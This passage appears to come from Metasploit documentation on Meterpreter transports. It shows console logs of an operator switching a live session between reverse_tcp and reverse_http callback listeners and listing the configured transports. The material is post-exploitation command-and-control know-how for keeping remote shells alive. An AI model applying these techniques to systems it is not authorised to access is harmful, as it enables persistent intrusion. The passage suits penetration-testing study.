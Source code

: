 ```
[*] Changing to next transport ...
[+] Successfully changed to the next transport, killing current session.

[*] 10.1.10.35 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(handler) > 
[*] 10.1.10.40:46130 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[*] Meterpreter session 2 opened (10.1.10.40:5105 -> 10.1.10.40:46130) at 2015-06-02 20:53:54 +1000

msf exploit(handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```
This output shows that we moved from the original `reverse_tcp` to the `reverse_http` transport, and this is now the current transport.

Moving to the next transport again takes the session to the second `reverse_tcp` listener:
```
meterpreter > transport next
[*] Changing to next transport ...
[+] Successfully changed to the next transport, killing current session.

[*] 10.1.10.35 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 3 opened (10.1.10.40:5005 -> 10.1.10.35:49277) at 2015-06-02 20:54:45 +1000

msf exploit(handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:06

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
```
From here, moving backwards sends Meterpreter back to the `reverse_http` listener:
```
meterpreter > transport prev
[*] Changing to previous transport ...

[*] 10.1.10.40:46245 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[+] Successfully changed to the previous transport, killing current session.
```

  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication